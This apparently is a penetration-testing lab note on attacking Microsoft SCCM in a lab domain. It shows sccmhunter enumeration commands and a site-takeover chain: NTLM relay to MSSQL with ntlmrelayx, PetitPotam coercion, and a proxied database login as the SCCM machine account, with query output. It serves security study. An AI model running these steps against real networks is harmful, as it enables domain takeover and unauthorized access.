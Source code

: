 The [sccmhunter](https://github.com/garrettfoster13/sccmhunter) tool can perform multiple attack and enumeration operations. Below the find command which uses ldap to look for SCCM.

```shell-session
 proxychains4 -q python3 sccmhunter.py find -u blwasp -p Password123! -d lab.local -dc-ip 172.50.0.10
```

For results

```shell-session
python3 sccmhunter.py show -all
```

Enumerate with smb module and save PXEboot variables

```shell-session
python3 sccmhunter.py smb -u blwasp -p Password123! -d lab.local -dc-ip 172.50.0.10 -save
```

### <mark style="color:yellow;">SCCM Site Takeover</mark>

If main MSSQL server is hosted on a different server than SCCM. The SCCM server needs administrator access to the database server but with NTLM authentication its possible to relay, with SMB or MSSQL, in this case they are tricking the SCCM server to authenticate.&#x20;

<details><summary>Setup impacket</summary></details>

Then start ntlmrelay

```sh
python3 examples/ntlmrelayx.py -t "mssql://172.50.0.30" -smb2support -socks
```

And coerce with PetitPotam

```sh
python3 PetitPotam.py -u BlWasp -p 'Password123!' -d 'lab.local' 10.10.14.207 172.50.0.21
```

The connect to database

```sh
proxychains4 -q python3 examples/mssqlclient.py 'LAB/SCCM01$'@172.50.0.30 -windows-auth -no-pass
```

List table with RBAC\_Admin

```shell-session
mczen@htb[/htb]# proxychains4 -q python3 examples/mssqlclient.py 'LAB/SCCM01$'@172.50.0.30 -windows-auth -no-pass
...SNIP...
SQL (LAB\SCCM01$  dbo@CM_HTB)> SELECT * FROM RBAC_Admins
 AdminID                                                      AdminSID   LogonName        DisplayName   IsGroup   IsDeleted   CreatedBy        CreatedDate   ModifiedBy       ModifiedDate   SourceSite   DistinguishedName                    AccountType   
--------   -----------------------------------------------------------   --------------   -----------   -------   ---------   --------------   -----------   --------------   ------------   ----------   ----------------------------------   -----------   
16777217   b'0105000000000005150000004b2233992a9592e9d78a99dab9040000'   LAB\sccm_admin   NULL                0           0   LAB\sccm_admin   2024-05-10 10:12:57   LAB\sccm_admin   2024-05-10 10:12:57   HTB          NULL                                        NULL   

16777222   b'0105000000000005150000004b2233992a9592e9d78a99daca040000'   LAB\rai          Rai MC              0           0   LAB\sccm_admin   2024-07-10 11:59:12   LAB\sccm_admin   2024-07-10 11:59:12   HTB          CN=Rai MC,CN=Users,DC=lab,DC=local             0
```
